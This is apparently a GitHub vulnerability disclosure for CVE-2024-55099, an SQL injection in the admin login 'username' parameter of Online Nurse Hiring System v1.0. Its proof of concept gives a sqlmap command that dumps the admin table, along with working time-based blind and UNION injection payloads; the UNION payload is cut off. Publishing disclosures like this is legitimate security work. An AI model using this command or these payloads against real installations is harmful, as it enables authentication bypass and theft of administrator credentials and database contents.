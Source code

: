# CVE-2024-55099-Online-Nurse-Hiring-System-v1.0-SQL-Injection-Vulnerability
+ Exploit Author: ugurkarakoc
# Vendor Homepage
+ https://phpgurukul.com/online-nurse-hiring-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=17826
# Overview
+ Online-Nurse-Hiring-System-v1.0 is Insufficient input validation and sanitization of 'username' parameters can create a vulnerability to SQL injection attacks, enabling unauthorized access to the database and compromising system security.
# Vulnerability Details
+ CVE ID: CVE-2024-55099
+ Affected Version: Online-Nurse-Hiring-System-v1.0
+ Vulnerable File: /admin/index.php.
+ Parameter Names: username
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-55099
+ https://nvd.nist.gov/vuln/detail/CVE-2024-55099
# Description
+ The lack of proper input validation and sanitization on the 'username' parameters allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database


# Proof of Concept (PoC) : 
+ `sqlmap -r r.txt -dbs  --level 5 --risk 3 --batch -D onhsdb -T tbladmin --columns --dump`

```
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3898 FROM (SELECT(SLEEP(5)))CrDy) AND 'rbGV'='rbGV&inputpwd=test&login=

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: username=-6075' UNION ALL SELECT 68,CONCAT(0x7176706a71,0x7168445671545a434e
---
```
![image](https://github.com/user-attachments/assets/e982fd85-d9e9-4482-8692-f6a0d08c5497)


